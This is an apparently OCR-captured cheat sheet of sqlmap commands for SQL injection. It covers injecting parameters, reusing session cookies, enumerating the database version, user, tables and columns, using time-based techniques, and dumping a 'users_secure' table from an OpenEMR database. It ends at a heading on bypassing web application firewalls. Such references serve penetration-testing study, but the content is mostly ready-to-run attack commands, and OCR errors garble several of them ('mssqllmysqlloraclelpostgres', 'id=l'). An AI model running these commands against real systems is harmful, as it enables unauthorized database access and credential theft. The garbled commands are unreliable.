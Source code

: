```text
sqlmap.py -u "http://url" --data="id=l&str=val" -p "id"
-b --dbms="mssqllmysqlloraclelpostgres"
```

### SQL injection on the page requiring authentication

```text
1. Login and note cookie value (cookie1=val1, cookie2=val2)
sqlmap.py -u "http:// url "--data="id=l&str=val" -p "id"
--cookie="cookiel=vall;cookie2=val2"
```

### SQL injection and getting the database version and its name and user

```text
./sqlmap.py -u "http://url" --data="id=1&str=val" -p "id" -b --current-db
--current-user
```

### SQL injection and get database tables db=testdb

```text
sqlmap.py -u "http://url" --data="id=1&str=val" -p "id" --tables -D
"testdb"
```

### SQL injection and receiving table columns

```text
sqlmap.py -u "http://url" --data="id=l&str=val" -p "id" --columns -T
"users"
```

### Read from file

```text
sqlmap.py -r req.txt
```

### Get the records of the specified table from the specified database

```text
sqlmap -r req -D openemr -T users_secure --dump
```

### Using the delay technique

```text
sqlmap -r req --technique=T
```
[more info](https://github.com/sqlmapproject/sqlmap/wiki/Techniques)

### Bypass waf with unicode

